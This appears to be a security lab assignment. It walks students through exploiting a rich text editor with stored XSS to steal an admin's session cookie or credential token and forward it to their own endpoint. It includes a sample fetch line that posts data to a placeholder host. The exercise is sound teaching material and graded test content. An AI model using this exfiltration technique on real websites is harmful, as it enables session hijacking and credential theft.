 &nbsp;

Even though the website is protected by CSRF tokens, attackers can still manage to post malicious payload pretending to be the user.

&nbsp;

<h3>Requirements</h3>
<ol>
<li>Exploit the rich text editor to inject another XSS payload. Such payloads should NOT trigger an alert for a successful exploit. <strong>Your payload SHOULD set a global variable window.gotYou=true for the autograder to read</strong>.</li>
<li>You will steal admin’s cookies such that you can log in as admin to generate your unique hash string. Or, if you cannot steal the session cookie, you need to find a workaround to get the hash still. <strong>You will need to use the Message Receiver Endpoint to receive the stolen information.</strong></li>
<li><strong>Please DO NOT put any comments in your final code submission. </strong></li>
<li><strong>Please put a semicolon at the end of each statement. </strong></li>
</ol>
<strong>&nbsp;</strong>

<h3>Workflow</h3>
<ol>
<li>Log into the website with your own credentials.</li>
<li>Inspect your session cookie to check if it has httpOnly set.
<ol>
<li>If not, an XSS payload can steal it, so you can log into the website as another one.</li>
<li>If yes, you need to find another way to get the hash.</li>
</ol>
</li>
<li>Create a new post and find the vulnerable point of the editor. The editor has two modes.
<ol>
<li>“What you see is what you got” mode. Try to type in some inputs and see how the editor deals with them.</li>
<li>“Code editing” mode. Try to type in some JS code with &lt;script&gt; tag and exit the mode. See how the editor renders your input.</li>
</ol>
</li>
<li>Submit a post that can trigger an alert. Go to “My writeups” to see if you can see the alert box. If not, your payload or the way you exploit the editor is incorrect.</li>
<li>When you can exploit the editor successfully, submit a new post instead of triggering an alert. It should issue an HTTP request to your HTTP server. A simple</li>
</ol>
“fetch<a href="http://your_host_ip:16986/?q=hello">(‘</a><a href="http://your_host_ip:16986/?q=hello">https://your_endpoint_address/</a><a href="http://your_host_ip:16986/?q=hello">’,</a> {method: ‘post’, body: ‘hi’})” will help you verify the correctness. Then, you should be able to see this after opening your endpoint in a new tab. In this way, you should be able to read data out of the website and send it to your HTTP endpoint.

<ol start="6">
<li>Copy the post’s URL and submit it to your console page to start an admin instance. Make sure your payload works as you intended before proceeding to the next step.</li>
<li>Modify your payload so that you can fetch (and see) the admin’s console page</li>
<li>Look into the “Information Theft” section and its HTML source code.</li>
<li>Further modify your payload to steal the (credential) token and use it to send the request for getting the hash. (This token will change on the admin’s next visit. It is not a good idea to hardcode a stolen token in your payload.)</li>
<li>If your attack is successful, the victim’s browser will acquire your hash. Your script may further extract this hash and forward it to your endpoint.</li>
</ol>
&nbsp;
